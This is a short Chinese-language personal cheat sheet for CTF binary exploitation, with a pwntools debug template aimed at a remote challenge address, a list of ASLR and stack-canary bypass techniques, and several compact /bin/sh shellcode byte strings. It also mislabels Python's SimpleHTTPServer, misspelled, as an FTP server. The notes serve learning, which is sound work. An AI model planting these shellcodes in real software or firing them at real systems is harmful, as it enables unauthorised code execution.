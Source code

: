 # 鶸的PWN小结
P.S.实在太菜，所以都很基础，慢慢维护
## 快速开启ftp服务器

```
python -m SimpleHTTPSerber
```
会在当前运行目录下开启ftp服务
## PWNTool 远程/本地调试模板

```python
#!/usr/bin/env python2
# coding:utf-8
from pwn import *
import os

VERBOSE = 1
DEBUG   = 1
LOCAL   = 0

target = 'target'
libc   = []         # 加载指定libc
break_points = []
remote_addr = '39.107.33.43'
remote_port = 13572

def hint(break_points=[]):
    if LOCAL:
        out = 'gdb attach ' + str(pwnlib.util.proc.pidof(target)[0])
        for bp in break_points:
            out += " -ex 'b *{}'".format(hex(bp))
        raw_input(out+" -ex 'c'\n" if break_points else out+"\n") 
if libc:
    elf = ELF(libc[0])
    gadget = lambda x: next(elf.search(asm(x, os='linux', arch='amd64')))

if LOCAL:
    if libc:
        for libc_ in libc:
            os.environ['LD_PRELOAD'] = os.environ['PWD'] + '/' + libc_ + ':'
    p = process('./'+target)
    if DEBUG:
        out =  'gdb attach ' + str(pwnlib.util.proc.pidof(target)[0])
        for bp in break_points:
            out += " -ex 'b *{}'".format(hex(bp))
        raw_input(out+" -ex 'c'\n" if break_points else out+"\n")
else:
    p = remote(remote_addr,remote_port)

if VERBOSE: context.log_level = 'DEBUG'

```

## Return to dl_resolve

http://pwn4.fun/2016/11/09/Return-to-dl-resolve/
这个写的比较清楚
## shellcraft
编写shellcode

## linux保护机制的绕过方法

现代栈溢出利用技术基础：ROP

利用signal机制的ROP技术：SROP

没有binary怎么办：BROP 、dump bin

劫持栈指针：stack pivot

利用动态链接绕过ASLR：ret2dl resolve、fake linkmap

利用地址低12bit绕过ASLR：Partial Overwrite

绕过stack canary：改写指针与局部变量、leak canary、overwrite canary

溢出位数不够怎么办：覆盖ebp，Partial Overwrite

现代栈溢出利用技术基础:ROP

## 23字节shellcode
搜索地址【http://shell-storm.org/online/Online-Assembler-and-Disassembler/】
```
char *shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56"
    "\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
```

```

"\x33\xd2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
```
19字节shellcode（64）
“\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05”
## IDA keypatch问题相关

https://github.com/keystone-engine/keypatch/issues/28
